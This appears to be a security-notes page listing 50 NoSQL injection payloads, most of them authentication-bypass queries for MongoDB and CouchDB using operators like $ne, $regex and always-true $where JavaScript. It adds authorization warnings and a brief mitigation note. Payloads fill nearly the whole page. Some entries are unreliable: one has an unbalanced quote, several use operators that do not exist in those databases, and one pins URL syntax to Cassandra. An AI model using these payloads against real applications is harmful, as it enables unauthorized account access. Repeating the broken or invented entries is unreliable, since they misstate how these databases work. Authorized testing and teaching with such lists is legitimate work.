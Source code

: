 ```yaml
---
title: "NoSQL injection payload"
tags:
  - NoSQL_injection
---
```


NoSQL injection is a technique used to exploit vulnerabilities in NoSQL databases by injecting malicious code into queries, similar to SQL injection but tailored to NoSQL query syntax like MongoDB, Cassandra, or CouchDB. Below is a list of 50 example payloads that could be used to test for NoSQL injection vulnerabilities. **Warning**: These payloads are for educational and testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical.

**Note**: The payloads are generalized and may need adaptation depending on the NoSQL database (e.g., MongoDB, CouchDB) and the application's query structure. Always test responsibly in a legal, authorized environment.

### MongoDB-Specific NoSQL Injection Payloads
MongoDB often uses JSON-like query syntax, so payloads target operators like `$ne`, `$eq`, `$gt`, `$regex`, etc.

1. `{"username": {"$ne": null}, "password": {"$ne": null}}` - Bypasses authentication by checking for non-null username/password.
2. `{"username": "admin", "password": {"$gt": ""}}` - Attempts to match any password greater than an empty string.
3. `{"username": {"$eq": "admin"}, "password": {"$exists": true}}` - Checks if the username is "admin" and password exists.
4. `{"$or": [{"username": "admin"}, {"password": "anything"}]}` - Uses `$or` to bypass authentication logic.
5. `{"username": {"$in": ["admin", "user"]}, "password": {"$ne": "wrong"}}` - Tests multiple usernames with a not-equal condition.
6. `{"username": {"$regex": ".*admin.*"}, "password": {"$ne": null}}` - Uses regex to match usernames containing "admin".
7. `{"username": {"$eq": "admin"}, "password": {"$type": 2}}` - Targets string-type passwords.
8. `{"username": {"$gt": ""}, "password": {"$gt": ""}}` - Matches any non-empty username and password.
9. `{"$where": "this.username == 'admin'"}` - Uses JavaScript-based `$where` clause to bypass checks.
10. `{"username": {"$ne": ""}, "password": {"$regex": "^.*$"}}` - Matches any non-empty username and any password.
11. `{"username": {"$eq": "admin"}, "password": {"$nin": ["invalid"]}}` - Excludes specific invalid passwords.
12. `{"username": "admin';return true;//", "password": "anything"}` - JavaScript injection for `$where` queries.
13. `{"username": {"$regex": "^a"}, "password": {"$exists": true}}` - Matches usernames starting with "a".
14. `{"$and": [{"username": "admin"}, {"password": {"$ne": "wrong"}}]}` - Combines conditions to bypass logic.
15. `{"username": {"$eq": "admin"}, "password": {"$size": 0}}` - Targets empty password arrays.
16. `{"username": {"$not": {"$eq": "guest"}}, "password": {"$ne": null}}` - Excludes "guest" usernames.
17. `{"username": {"$all": ["admin"]}, "password": {"$gt": ""}}` - Matches specific username arrays.
18. `{"username": {"$regex": "admin", "$options": "i"}, "password": {"$ne": null}}` - Case-insensitive username match.
19. `{"username": {"$elemMatch": {"$eq": "admin"}}, "password": {"$ne": ""}}` - Targets array elements.
20. `{"$where": "this.password.length > 0"}` - JavaScript to check non-empty passwords.

### General NoSQL Injection Payloads
These payloads target common NoSQL databases or generic query structures.

21. `username=admin&password[$ne]=null` - URL-encoded payload for bypassing authentication.
22. `username=admin&password[$gt]=` - Empty `$gt` to match any password.
23. `username[$eq]=admin&password[$exists]=true` - Checks for existing passwords.
24. `username[$regex]=.*admin.*&password[$ne]=null` - Regex-based username match.
25. `username=admin&password[$in][]=valid&password[$in][]=invalid` - Tests multiple password values.
26. `username[$ne]=guest&password[$ne]=null` - Excludes guest users.
27. `username[$or][][username]=admin&username[$or][][password]=anything` - OR condition in URL.
28. `username[$eq]=admin&password[$type]=string` - Targets string-type passwords.
29. `username=admin&password[$regex]=^.*$` - Matches any password.
30. `username[$not][$eq]=user&password[$ne]=null` - Excludes specific usernames.

### JavaScript Injection Payloads
For databases supporting JavaScript (e.g., MongoDB `$where`).

31. `{"$where": "return true"}` - Always-true condition to bypass authentication.
32. `{"$where": "this.username == 'admin' && this.password != 'wrong'"}` - Specific username/password check.
33. `{"$where": "sleep(1000);return true"}` - Tests for JavaScript execution delay.
34. `{"$where": "this.password == this.password"}` - Trivial true condition.
35. `{"$where": "this.username.length > 0"}` - Matches non-empty usernames.
36. `username=admin';sleep(1000);//&password=anything` - JavaScript delay injection.
37. `{"$where": "this.username.match(/admin/)}` - Regex-based username match in JavaScript.
38. `{"$where": "this.password == 'admin' || true"}` - Forces true with OR.
39. `{"$where": "function(){return true;}"}` - Anonymous function to return true.
40. `{"$where": "this.username == 'admin' && 1==1"}` - Adds trivial true condition.

### CouchDB/Cassandra/Other NoSQL Payloads
These target other NoSQL databases with different query structures.

41. `{"key": {"$eq": "admin"}, "value": {"$ne": null}}` - CouchDB-style key-value injection.
42. `{"selector": {"username": "admin", "password": {"$gt": ""}}}` - CouchDB selector query.
43. `{"selector": {"$or": [{"username": "admin"}, {"password": "test"}]}}` - CouchDB OR condition.
44. `username[$eq]=admin&password[$gt]=0` - Numeric comparison for Cassandra.
45. `{"query": "username = 'admin' OR 1=1"}` - Generic OR injection.
46. `{"filter": {"username": {"$contains": "admin"}}}` - Filter-based injection.
47. `{"username": {"$eq": "admin"}, "password": {"$isNotNull": true}}` - Non-null check.
48. `{"query": {"username": {"$like": "%admin%"}}}` - LIKE-style pattern matching.
49. `{"username": {"$in": ["admin", "root"]}, "password": {"$exists": true}}` - Multi-user check.
50. `{"selector": {"username": {"$regex": ".*"}, "password": {"$ne": null}}}` - Broad regex match.

### Notes
- **Context-Specific**: Payloads must be tailored to the database (e.g., MongoDB uses `$ne`, CouchDB uses `selector`). Test the database type first.
- **Encoding**: For web applications, payloads may need URL or JSON encoding (e.g., `[$ne]` becomes `%5B%24ne%5D`).
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize inputs, use parameterized queries, and avoid exposing query operators to user input.

